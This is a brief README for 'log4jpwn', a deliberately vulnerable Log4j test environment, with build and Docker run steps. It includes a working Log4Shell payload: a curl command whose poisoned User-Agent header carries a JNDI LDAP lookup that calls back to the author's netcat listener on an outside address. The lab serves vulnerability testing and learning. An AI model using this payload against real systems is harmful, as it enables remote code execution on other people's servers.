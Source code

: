 # log4jpwn

log4j rce test environment

![](images/image.png)

## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.


